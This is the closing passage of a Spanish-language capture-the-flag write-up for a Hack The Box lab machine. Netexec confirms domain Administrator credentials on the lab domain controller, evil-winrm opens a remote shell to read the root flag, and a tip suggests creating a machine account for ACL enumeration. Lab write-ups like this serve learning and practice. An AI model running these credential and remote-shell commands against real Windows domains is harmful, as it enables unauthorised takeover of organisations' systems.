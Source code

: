 ```bash
❯ nxc smb dc01.haze.htb -u Administrator -p 'Password123!'
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.61     445    DC01             [+] haze.htb\Administrator:Password123! (Pwn3d!)
```

Ahora podemos entrar por WinRM y tomar la última flag.

```bash
❯ evil-winrm -i dc01.haze.htb -u Administrator -p 'Password123!'
Evil-WinRM shell v3.6
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls -Force

    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          3/4/2025  11:00 PM            282 desktop.ini
-ar---         6/27/2025  11:02 AM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
4fa97c7ca638f39c2079f26b80******
```

## Extra

En vez de simplemente mirar las ACLs a bajo nivel, podrías también simplemente crearte una cuenta de computadora y de ahí obtener todo lo que necesitas para la enumeración. 

